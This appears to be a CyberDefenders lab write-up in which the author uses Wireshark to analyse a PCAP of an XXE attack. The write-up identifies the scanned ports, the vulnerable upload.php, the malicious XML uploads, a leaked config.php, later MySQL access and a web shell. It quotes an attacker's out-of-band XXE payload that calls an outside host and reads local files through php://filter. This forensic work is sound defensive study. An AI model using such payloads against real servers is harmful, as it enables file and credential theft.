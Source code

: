 ```yaml
---
title: 'XXE Infiltration - CyberDefenders Labs'
date: 2025-10-10 19:00:00 +0530
categories: [blue-teaming]
tags:
- Cyber-Defenders
- Network Analysis
---
```


## Summary:

*An automated alert has detected unusual XML data being processed by the server, which suggests a potential XXE (XML External Entity) Injection attack. This raises concerns about the integrity of the company's customer data and internal systems, prompting an immediate investigation.*

*Analyze the provided PCAP file using the network analysis tools available to you. Your goal is to identify how the attacker gained access and what actions they took.*

### What is XXE (XML External Entity attack)

***XML External Entity (XXE)** is a vulnerability that occurs when an application parses attacker-controlled XML with a misconfigured parser that allows DTD/entity resolution. By embedding a <!DOCTYPE> that defines an external entity (e.g., file:// or http://), an attacker can trick the parser into reading local files, querying internal services (SSRF), or exfiltrating data—all before the application code even sees the input. XXE is language-agnostic (PHP, Java, .NET, etc. are all affected) and is typically triggered through XML inputs such as API requests, file uploads (e.g., .xml, .svg), SOAP/SAML, or import features.*

Q. **Identifying the open ports discovered by an attacker helps us understand which services are exposed and potentially vulnerable. Can you identify the highest-numbered port that is open on the victim's web server?**

A. To determine the highest-numbered open port on the victim’s web server, I first used Wireshark’s **Conversations** view to confirm there were only two active hosts in the capture: `210.106.114.183` and `50.239.151.185`. The victim is the host that responds to probes with **SYN-ACK** packets, while the attacker is the one initiating **SYN** scans and receiving **RST** replies from closed ports. 

```c
  ├─► Send TCP SYN to <target>:<port>
  │
  ├─ If SYN-ACK received?
  │        │
  │        ├─ Yes ─► Send RST (don’t finish handshake)
  │        │           │
  │        │           └─► Classification: OPEN (or OPEN|FILTERED if oddities)
  │        │
  │        └─ No
  │
  ├─ If RST/ACK (or plain RST) received?
  │        │
  │        ├─ Yes ─► Classification: CLOSED
  │        │
  │        └─ No
```

![image.png]({{ '/assets/img/XXE_Infiltration/image.png' | relative_url }})

With the roles established, I filtered specifically for successful connection attempts—i.e., SYN-ACKs sent by the victim to the attacker—using:

```c
tcp.flags.syn == 1 && tcp.flags.ack == 1 && ip.dst == 210.106.114.183
```

![image.png]({{ '/assets/img/XXE_Infiltration/image%201.png' | relative_url }})

Q. **By identifying the vulnerable PHP script, security teams can directly address and mitigate the vulnerability. What's the complete URI of the PHP script vulnerable to XXE Injection?**

A. To pinpoint the PHP endpoint abused for the XXE, I first constrained the capture to attacker-originated HTTP requests that reference PHP files. Using the display filter

```c
ip.src_host== 210.106.114.183 && http && http.request.uri contains ".php"
```

![image.png]({{ '/assets/img/XXE_Infiltration/image%202.png' | relative_url }})

Wireshark showed a sweep of PHP paths on the victim (`/books.php`, `/contact.php`, `/index.php`, etc.). Since XXE payloads are typically delivered via **POST**, I narrowed further to

```c
ip.src_host== 210.106.114.183 && http && http.request.uri contains ".php" && http.request.method == POST
```

which consistently surfaced a file-handling endpoint: **`/review/upload.php`**. Combining the path with the destination and scheme visible in the trace yields the complete URI of the vulnerable script “*hxxp://50.239.151.185/review/upload.php*”

![image.png]({{ '/assets/img/XXE_Infiltration/image%203.png' | relative_url }})

Q. **To construct the attack timeline and determine the initial point of compromise. What's the name of the first malicious XML file uploaded by the attacker?**

A. I traced the earliest `POST` to the upload handler `/review/upload.php`. The multipart body shows an XML file named **TheGreatGatsby.xml**. Inside, the attacker embeds a `<!DOCTYPE …>` that defines an external entity pointing to `file:///etc/passwd`, then references it in the document—an explicit XXE attempt delivered via file upload.

![image.png]({{ '/assets/img/XXE_Infiltration/image%204.png' | relative_url }})

Other malicious XML uploads map directly to sensitive files on the server:

- `1984.xml` → `/var/www/html/index.php`
- `To Kill a Mockingbird.xml` → `/var/www/html/config.php`

Beyond the local file reads, the attacker also uploaded **`PrideandPrejudice.xml`**, which attempts an out-of-band XXE. The XML includes a `<!DOCTYPE>` that references an external resource and tries to base64-wrap a local file via `php://filter`, indicating an effort to exfiltrate data without relying on on-page reflection.

```c
Content-Disposition: form-data; name="file"; filename="PrideandPrejudice.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % payload SYSTEM "http://203.0.113.15/booking.php">
<!ENTITY % internals "<!ENTITY file SYSTEM 'php://filter/read=convert.base64-encode/resource=%payload;'>">]>
<foo>&file;</foo>
```

Q. **Understanding which sensitive files were accessed helps evaluate the breach's potential impact. What's the name of the web app configuration file the attacker read?**

&&

Q. **Following the database user compromise. What is the timestamp of the attacker's initial connection to the MySQL server using the compromised credentials after the exposure?**

A. I inspected later HTTP streams from the same upload workflow. One malicious XML explicitly set the external entity to `file:///var/www/html/config.php`. The server parsed the upload and expanded the entity, returning the PHP configuration file in the response

![image.png]({{ '/assets/img/XXE_Infiltration/image%205.png' | relative_url }})

The leaked file is **`config.php`** at **`/var/www/html/config.php`**, which reveals database connection details (host, name, user, and password).

Q. **Following the database user compromise. What is the timestamp of the attacker's initial connection to the MySQL server using the compromised credentials after the exposure?**

A. To verify database access after the config leak, I filtered for MySQL traffic on TCP **3306** and followed the first TCP 3-way handshake to the server. Immediately after the **Server Greeting**, the client sends a **Login Request**—this is the moment compromised credentials are first used. The activity started from “2024-05-31 12:08”

![image.png]({{ '/assets/img/XXE_Infiltration/image%206.png' | relative_url }})

Q. **To eliminate the threat and prevent further unauthorized access, can you identify the name of the web shell that the attacker uploaded for remote code execution and persistence?**

A. The trace shows repeated executions of a PHP shell using a `cmd` parameter:

![image.png]({{ '/assets/img/XXE_Infiltration/image%207.png' | relative_url }})

This pattern is conclusive evidence that a PHP web shell named **booking.php** is present and actively used for RCE.